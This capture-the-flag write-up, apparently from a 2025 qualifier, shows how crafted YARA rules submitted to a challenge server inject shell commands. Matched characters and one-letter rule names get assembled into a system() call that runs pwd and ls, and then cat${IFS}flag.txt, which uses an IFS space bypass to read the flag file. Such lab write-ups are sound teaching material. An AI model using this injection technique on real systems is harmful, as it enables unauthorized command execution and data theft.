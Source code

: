 <img src="https://github.com/raul-dunca/rocsc_2025_quals/blob/main/.assets/iarasi_description.png">

It seemed like the server takes your input, and it puts it in a `.yar` file and the matches are returned. What caught my attention while playing around with the server is that for the input (this rule should return all the files that contain the character *): 

```txt
rule ListFiles { strings: $txt = "*" condition: $txt }
```

I would see this error:

```txt
[YARA] Command to system(): *
sh: 1: flag.txt: not found
```
Hmm, interesting the command to system is * which is the character I used and after some more testing it seemed that the character used in the rule will be added to `command to system()` only if a match is happening (at least a file contains that character). After some more testing I found out that if the rule has exactly 1 letter it will also be appended to `command to system()` so I send the following 2 rules (separately):

```txt
rule ListFiles { strings: $txt = "p" condition: $txt }
rule w { strings: $txt = "d" condition: $txt }
```
And after quitting I saw:

```txt
[YARA] Command to system(): pwd
/home/ctf
```
Good, `pwd` got executed now I tried to run `ls`: 

```txt
rule ListFiles { strings: $txt = "l" condition: $txt }
rule test { strings: $txt = "s" condition: $txt }
```
Output:

```txt
[YARA] Command to system(): ls
flag.txt run.sh server.py testfile.txt
```

Nice, now I just need to `cat flag.txt`, but as I said before a match was needed for the character to be added to `command to system()` or for that character to be the name of the rule (and you can’t name a rule: “ “) and the testfile.txt from the server did not contain a space in it, so I had to find an alternative approach. I tried to run `cat${IFS}flag.txt` ($IFS is an environment variable which contains separators):

```txt
rule ListFiles { strings: $txt = "c" condition: $txt }
rule a { strings: $txt = "t" condition: $txt }
rule ff { strings: $txt = "$" condition: $txt }
rule aa { strings: $txt = "{" condition: $txt }
rule I { strings: $txt = "F" condition: $txt }
rule S { strings: $txt = "}" condition: $txt }
rule f { strings: $txt = "l" condition: $txt }
rule bb { strings: $txt = "a" condition: $txt }
rule g { strings: $txt = "." condition: $txt }
rule tt { strings: $txt = "t" condition: $txt }
rule x { strings: $txt = "t" condition: $txt }
```

Output:

```txt
[YARA] Command to system(): cat${IFS}flag.txt
ctf{bd07ea96ee394b654044c48dca65b994c205cc511c4b9f8a03bb471a8db9319e}
```

Important note: I used 2 letter rules to avoid rule names like “{“ which I don’t think would’ve worked.

`ctf{bd07ea96ee394b654044c48dca65b994c205cc511c4b9f8a03bb471a8db9319e}`